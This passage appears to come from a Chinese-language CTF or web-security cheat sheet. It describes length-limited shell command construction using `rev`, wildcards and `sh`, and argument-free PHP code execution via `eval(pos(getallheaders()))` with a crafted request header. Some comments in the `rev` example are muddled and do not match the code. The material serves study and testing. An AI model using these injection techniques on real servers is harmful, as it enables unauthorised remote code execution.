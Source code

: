 限制最为严格，需要极细致的命令拆分和利用通配符 `*`、`?` 或 `rev` 命令等技巧。

**利用示例：**

```bash
# 目标: ls -t > g; sh g
# 创建一个包含 'ls -t' 的文件 g
echo sl>g
rev g>v
cat v>g # g 的内容是 'ls'
echo \ >>g
echo -t>>g

# 执行脚本
sh g

# 另一个例子：通过 rev 命令反转构造
>rev
*>v  # 将 rev 的内容（文件名本身）写入 v
rev v>x # 反转 v 的内容写入 x，如果 v 的内容是 'rev'，x 的内容是 'ver'
# 这种方法需要巧妙地利用已有文件名和通配符
```

---

### 8. 无参数命令执行 (请求头绕过 - PHP 7.3+) 🤯

**核心原理：**

利用 `getallheaders()` 函数 (或其别名 `apache_request_headers()`) 读取所有 HTTP 请求头信息，该函数返回一个包含所有请求头的数组。如果能控制请求头的内容，并且有办法将请求头中的字符串作为代码执行，则可以实现远程命令执行。`pos()` 函数返回数组的第一个元素。

**利用示例：**

```php
// 目标代码:
eval(pos(getallheaders()));
// 或:
eval(current(getallheaders()));
```

**攻击方式：**

在 HTTP 请求中，将恶意 PHP 代码放在第一个请求头的值中 (或者修改请求，使得恶意请求头成为数组的第一个元素)。

例如，发送如下请求：

```http
GET /vuln.php HTTP/1.1
Host: example.com
X-Malicious-Code: system('ls');
User-Agent: ...
...
```

如果 `X-Malicious-Code` 是 `getallheaders()` 返回数组的第一个元素 (顺序可能依赖于服务器和PHP版本)，那么 `pos(getallheaders())` 就会返回 `system('ls');`，然后被 `eval()` 执行。攻击者通常会尝试将恶意代码放在一个自定义的、字典序靠前的头部。

---